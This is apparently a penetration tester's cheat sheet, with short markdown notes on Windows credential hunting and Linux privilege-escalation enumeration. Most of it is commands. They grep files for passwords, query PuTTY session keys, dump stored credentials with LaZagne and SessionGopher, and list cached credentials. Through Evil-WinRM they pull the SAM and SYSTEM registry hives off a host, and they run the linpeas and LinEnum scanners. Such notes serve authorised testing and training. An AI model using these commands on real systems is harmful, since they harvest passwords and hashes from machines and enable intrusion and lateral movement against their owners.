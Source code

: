 ### Credentials

> https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#files-and-registry-credentials
> 

```jsx
findstr /si password *.txt
dir /s *pass* == *cred* == *vnc* == *.config*
findstr /spin "password" *.*

//command line history
(Get-PSReadlineOption).HistorySavePath
//putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"

. .\LaZagne.exe all

. .\sessionGopher.ps1
Invoke-SessionGopher -Thorough

cmdkey /list

*Evil-WinRM* PS C:\windows.old\Windows\system32> download SAM .
*Evil-WinRM* PS C:\windows.old\Windows\system32> download SYSTEM .

Try ssh/psexec/wmiexec/rdp

```

### Local web runas Admin/System

GET reuqest

```jsx
curl http://nickel #cmd
Invoke-WebRequest -UseBasicParsing -Uri http://example.com/ #powershell
```

## **Linux**


### AutoScan

```jsx
bash linpeas.sh > out.txt
./LinEnum.sh -s -k keyword -r report -e /tmp/ -t
cat out.txt | less -r
```

### Switch User

password reuse
